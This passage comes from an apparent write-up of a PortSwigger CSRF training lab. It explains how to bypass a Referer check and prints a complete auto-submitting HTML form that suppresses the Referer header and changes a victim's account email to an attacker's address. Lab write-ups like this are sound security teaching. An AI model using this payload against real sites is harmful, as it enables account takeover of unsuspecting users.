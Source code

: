 ![](../../.gitbook/assets/portswigger-csrf-writeup-image-32.png)

To exploit this lab, I have to use the normal CSRF form, and somehow remove the victim's `Referer` header. This can be set using the following HTML tags:

```
<meta name="referrer" content="never">
```

So the final payload is:

```html
<meta name="referrer" content="never">
<form class="login-form" name="change-email-form" action="https://0ae100a8036436398018aacc00300090.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 12: Broken Referer Validation
